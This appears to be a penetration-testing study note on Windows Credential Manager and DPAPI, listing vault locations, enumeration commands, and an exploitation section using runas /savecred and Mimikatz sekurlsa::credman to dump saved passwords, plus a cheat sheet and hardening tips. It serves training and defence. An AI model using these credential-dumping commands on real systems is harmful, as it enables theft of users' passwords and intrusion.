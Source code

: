 # 5. Credential Manager & DPAPI

## Overview

Windows Credential Manager allows users and applications to store credentials such as passwords and login tokens. These are stored securely using DPAPI encryption, either in local or roaming profile paths.

Credential Storage Locations:

```
%UserProfile%\AppData\Local\Microsoft\Vault\
%UserProfile%\AppData\Roaming\Microsoft\Vault\
%UserProfile%\AppData\Local\Microsoft\Credentials\
%ProgramData%\Microsoft\Vault\
%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\
```

Each Vault contains a Policy.vpol file which stores AES keys (AES-128 or AES-256), protected by the DPAPI master key. Newer systems might use Credential Guard to isolate and protect these secrets.

## Credential Types

|Type|Description|
|---|---|
|Web Credentials|Used by browsers like IE/Edge to store site login data.|
|Windows Credentials|Used to store local/domain creds for services like SMB, RDP, OneDrive.|

## Enumerating Credentials

### Using cmdkey

```cmd
cmdkey /list
```

This lists credentials stored in the current user context.

Example Output:

```
Target: Domain:interactive=SRV01\mcharles
Type: Domain Password
User: SRV01\mcharles
```

### Using rundll32 to View GUI

```cmd
rundll32 keymgr.dll,KRShowKeyMgr
```

### Exporting Vaults (via GUI)

Control Panel > User Accounts > Credential Manager > Backup Credentials > .crd file

## Exploitation

### Use Saved Credentials with RunAs

```cmd
runas /savecred /user:SRV01\mcharles cmd
```

This launches a new shell using saved credentials.

### Dumping with Mimikatz

```text
privilege::debug
sekurlsa::credman
```

Expected Output:

```
* Username : mcharles@domain.local
* Domain   : onedrive.live.com
* Password : hunter2
```

This dumps Credential Manager secrets stored in memory.

## Alternative Tools

- SharpDPAPI: Decrypt DPAPI blobs offline using recovered masterkeys.
    
- LaZagne: Cross-platform credential dumper.
    
- DonPAPI: Extracts vault credentials and DPAPI secrets automatically.
    

## Hardening Tips

- Enable Credential Guard.
    
- Disable “Remember my credentials” for RDP and mapped drives.
    
- Monitor Event ID 5379 (DPAPI operation).
    

## Related Notes

- [[🟠 18. SAM & LSA Attack✔️]]
        
- [[🟠 19. LSASS Attack✔️]]
        

## Quick Ref Cheat Sheet

```
cmdkey /list
runas /savecred /user:<domain\user> cmd
mimikatz > privilege::debug
mimikatz > sekurlsa::credman
SharpDPAPI <masterkey> <vaultblob>
```
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Credential_Manager #DPAPI